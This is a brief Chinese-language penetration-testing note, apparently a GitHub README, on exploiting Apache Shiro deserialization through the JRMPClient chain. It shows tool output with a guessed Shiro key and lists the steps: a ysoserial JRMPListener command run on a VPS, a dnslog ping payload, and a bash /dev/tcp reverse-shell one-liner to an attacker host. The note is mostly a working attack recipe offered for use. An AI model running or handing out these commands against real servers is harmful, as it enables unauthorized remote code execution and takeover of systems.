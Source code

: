 ## 0x00 漏洞背景

  在打一个项目中，shiro反序列化有个链容易忽略，找到key没有链，使用JRMPClient成功反弹，下面是shiro_tool.jar测试结果，关键部分不放了。
 ``` 
[-] target is use shiro
[-] start guess shiro key...
[-] use shiro key: 4AvVhmFLUs0KTA3Kprsdag==
[-] check CommonsBeanutils1
[-] check CommonsCollections1
[-] check CommonsCollections2
[-] check CommonsCollections3
[-] check CommonsCollections4
[-] check CommonsCollections5
[-] check CommonsCollections6
[-] check CommonsCollections7
[-] check Groovy1
[-] check JSON1
[-] check Spring1
[-] check Spring2
[-] check Jdk7u21
[-] check JRMPClient
[-] check ROME
[-] check Clojure
[*] find: JRMPClient can be use
0: JRMPClient
[-] please enter the number(0-0)

```
## 0x01 漏洞利用
  
  1.使用ysoserial.jar 工具搭建服务，VPS执行 java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 6789 CommonsCollections5 "ping rskzeg.dnslog.cn"
  
  2.shiro反序列利用工具中选择JRMPClient,然后输入VPS上搭建服务的地址
  
  3.执行反弹命令bash -i >& /dev/tcp/xxxxxx/8888 0>&1
  
有个文章不错可以参考：https://forum.ywhack.com/thread-200939-1-7.html
  
